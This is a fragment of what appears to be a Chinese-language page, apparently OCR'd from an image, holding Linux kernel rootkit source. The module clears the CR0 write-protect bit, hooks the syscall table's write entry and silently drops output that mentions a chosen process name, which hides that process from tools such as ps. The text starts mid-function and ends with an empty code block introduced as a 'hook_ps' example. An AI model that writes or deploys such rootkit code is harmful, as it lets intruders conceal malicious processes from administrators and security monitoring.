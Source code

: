```c
        unsigned long cr0 = read_cr0();
        set_bit(16, &cr0);
        write_cr0(cr0);
}

asmlinkage long hacked_write(unsigned int fd,
		char * buf, unsigned int count)
{
    char *k_buf;
	k_buf = (char*)kmalloc(256,GFP_KERNEL);
	memset(k_buf,0,256);
	copy_from_user(k_buf,buf,255);
    if(strstr(k_buf,processname))
	{
		kfree(k_buf);
		return count;
	}
    kfree(k_buf);
    return orig_write(fd,buf,count);
}
static int rooty_init(void)
{   
    sys_call_table = get_lstar_sct();
    orig_write = sys_call_table[__NR_write];
    printk("offset: 0x%x\n\n\n\n",orig_write);
    disable_write_protection();
	sys_call_table[__NR_write] = hacked_write;
	enable_write_protection();
    printk(KERN_INFO "hideps2: module loaded.\n");//就是消息记录等级
	return 0;
}


static void rooty_exit(void)
{
    printk(KERN_INFO "hideps: module removed\n");
}


MODULE_LICENSE("GPL");
module_init(rooty_init);
module_exit(rooty_exit);

```

下面是一个hook_ps的例子

```c

```


